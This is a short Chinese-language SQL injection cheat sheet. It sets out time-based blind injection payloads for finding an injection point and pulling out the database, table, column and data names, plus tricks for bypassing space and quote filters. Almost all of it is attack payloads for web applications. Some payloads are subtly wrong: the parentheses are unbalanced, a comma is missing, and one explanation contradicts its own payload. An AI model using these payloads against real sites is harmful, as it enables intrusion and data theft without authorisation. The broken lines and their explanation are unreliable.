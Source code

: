 # SQL注入

## 注入方式

### 延时注入

首先判断注入点：产生了延迟即证明存在延时注入

**1' and sleep(5)# **



爆出数据库：通过页面有没有睡眠，来判断数据库的名称，如果数据库第一个字母是s时 ，就会休眠5秒钟。

**1' and if(ascii(substr(database(),1,1))=115,1,sleep(10))#**



爆出数据表：

**1' and if( ascii(substr((select group_concat(table_name) from information_schema.tables where table_schema="数据库"),1,1)))=101,sleep(5),1#**



根据表名爆出列名

**1' and if( ascii(substr((select group_concat(column_name) from information_schema.columns where table_name="数据表"),1,1)))=101,sleep(5),1#**



根据列名爆出数据

**1' and if(ascii(substr((select group_concat(0x7e,字段,0x7e) from "数据表"),1,1)))=101sleep(5),1#**

## 过滤绕过

### 绕过空格

两个空格代替一个空格

Tab代替空格

%a0代替空格

/**/代替空格

括号绕过空格

**select(user())from(dual)**

### 绕过引号

使用like:

**select ascii(mid(user(),1,1))=80 #**

等价于 **select user() like 'r%'#**
